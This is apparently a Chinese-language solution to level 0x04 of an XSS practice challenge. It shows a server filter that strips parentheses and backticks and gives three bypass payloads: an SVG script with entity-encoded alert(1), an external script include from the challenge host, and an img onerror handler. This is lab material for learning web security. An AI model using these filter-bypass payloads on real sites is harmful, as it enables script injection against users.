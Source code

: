 ![003](/img/xss/haozi/003.png)

# 0x04

## server code:

```
function render (input) {
  const stripBracketsRe = /[()`]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
```

## 分析:

```
多过滤了`
```

## input code:

```
1. 
    利用html的字符实体和SVG。
    SVG意为可缩放矢量图形（Scalable Vector Graphics）。
    SVG 使用 XML 格式定义图像。
    <svg><script>alert&#x28;1&#x29;</script></svg>
 2. 利用外联
 <script src=https://xss.haozi.me/j.js></script>
 3. 利用img标签,结合onerrors事件,src资源不存在会触发错误。 
 <img src='' onerror="alert&#x28;&#x31;&#x29;">
 

```
